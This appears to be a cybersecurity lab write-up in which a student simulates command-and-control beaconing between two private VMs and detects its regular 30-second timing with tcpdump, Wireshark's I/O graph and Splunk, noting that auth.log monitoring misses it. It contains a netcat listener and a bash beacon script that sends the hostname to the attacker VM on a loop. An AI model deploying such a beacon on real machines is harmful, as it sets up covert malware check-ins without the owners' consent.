








# Beaconing Traffic Detection Lab

## Objective
Simulate C2 (Command and Control) beaconing behaviour — where compromised malware repeatedly contacts an attacker at fixed intervals — and detect the regular timing pattern using network traffic analysis. Identify the detection gap that exists when only host-based log monitoring is available.

## Tools Used
- Kali Linux
- Netcat
- Bash scripting
- Wireshark / tcpdump
- Splunk

## Skills Demonstrated
- C2 Beaconing Simulation
- Network Traffic Capture & Analysis
- Timing Pattern Detection (I/O Graph analysis)
- Detection Gap Identification
- SIEM Limitation Analysis

## Environment
- Attacker (C2 listener): Kali Linux VM1 (192.168.56.103)
- Victim (beacon source): Kali Linux VM2 (192.168.56.104)
- Network: 192.168.56.0/24 (Host-Only adapter)
- Beacon interval: 30 seconds
- Beacon port: 8080

## Attack Simulation

### C2 Listener (Attacker VM1)
Started a Netcat listener on port 8080 to simulate a C2 server waiting for beacon callbacks:
```bash
while true; do nc -lvnp 8080; done
```
The loop automatically restarts the listener after each beacon connection so all beacons accumulate in the same terminal session.

### Beacon Script (Victim VM2)
Created a bash script to simulate malware phoning home every 30 seconds:
```bash
#!/bin/bash
while true; do
    echo "BEACON $(date) $(hostname)" | nc -w 1 192.168.56.103 8080
    sleep 30
done
```
Made executable and ran in the background:
```bash
chmod +x ~/beacon.sh
bash ~/beacon.sh &
```

## Detection

### Network Capture
Started tcpdump before triggering the beacon to capture all traffic:
```bash
sudo tcpdump -i eth1 port 8080 -w /tmp/beacon.pcap &
```

### Wireshark Analysis
Opened the capture in Wireshark and applied filter:
```
tcp.port == 8080
```
The filtered packet list confirmed repeated short TCP connections between the two VMs — SYN, data push (beacon message), FIN — repeating every 30 seconds.

The I/O Graph revealed the clearest detection signal: **perfectly regular spikes across a 600+ second capture window**, every spike separated by exactly 30 seconds of silence. This regularity is too consistent to be human-generated traffic and is the defining signature of automated C2 beaconing.

Following a TCP stream confirmed the beacon content was transmitted in **plaintext**:
```
BEACON Sat Jul 4 02:51:46 AM EDT 2026 kali
```

### Beaconing Pattern Observed on VM1
Over 12 consecutive beacons were received, with timestamps showing consistent 30-32 second intervals:
```
BEACON Sat Jul 4 02:51:46 AM EDT 2026 kali
BEACON Sat Jul 4 02:52:18 AM EDT 2026 kali
BEACON Sat Jul 4 02:52:50 AM EDT 2026 kali
BEACON Sat Jul 4 02:53:22 AM EDT 2026 kali
...
BEACON Sat Jul 4 02:57:39 AM EDT 2026 kali
```

### Splunk Detection Gap
Searched Splunk for beacon traffic:
```
index=main dest_port=8080
| timechart span=30s count
```
Result: **0 events** — Splunk returned nothing because it only monitors `/var/log/auth.log`, which records SSH authentication events only. Network-level connections on port 8080 are completely invisible to host-based SIEM monitoring.

This is a critical finding: C2 beaconing cannot be detected by auth.log analysis alone. Network traffic capture and analysis (tcpdump/Wireshark) is required as a complementary detection layer.

## Screenshots



Netcat listener running on VM1 port 8080 — simulating a C2 server waiting for beacon callbacks



beacon.sh created in nano and made executable on VM2



Regular "Connection refused" errors from beacon script — proves the 30-second timing pattern even before listener was active



VM1 receiving 12+ consecutive beacon messages at consistent 30-32 second intervals — the C2 callback pattern



Wireshark filtered on tcp.port==8080 showing repeated short TCP connections from victim to attacker



I/O graph of beacon.pcap — perfectly regular spikes across 600+ seconds, each separated by exactly 30 seconds of silence — the definitive beaconing signature



TCP stream showing plaintext beacon message: BEACON Sat Jul 4 02:51:46 AM EDT 2026 kali



Splunk search for dest_port=8080 returns 0 events — confirms beaconing is completely invisible to host-based SIEM monitoring

## What I Learned
- How C2 beaconing works: malware doesn't maintain a constant connection but instead sends small, regular check-in packets at fixed intervals to avoid triggering volume-based alerts
- That the detection signal for beaconing is **timing regularity**, not volume — a single beacon packet is indistinguishable from normal traffic, but 12 identical packets at perfectly consistent 30-second intervals is unmistakably automated behavior
- Why host-based SIEM monitoring alone is insufficient for detecting C2 activity — auth.log only captures authentication events, leaving all non-SSH network connections completely invisible
- How Wireshark's I/O Graph with a 1-second interval reveals timing patterns that would be invisible in a simple packet list or event count
- That beacon content transmitted over unencrypted connections (like this Netcat simulation) is readable in plaintext via Wireshark's Follow TCP Stream — a real C2 framework would encrypt this, but the timing pattern would still be detectable
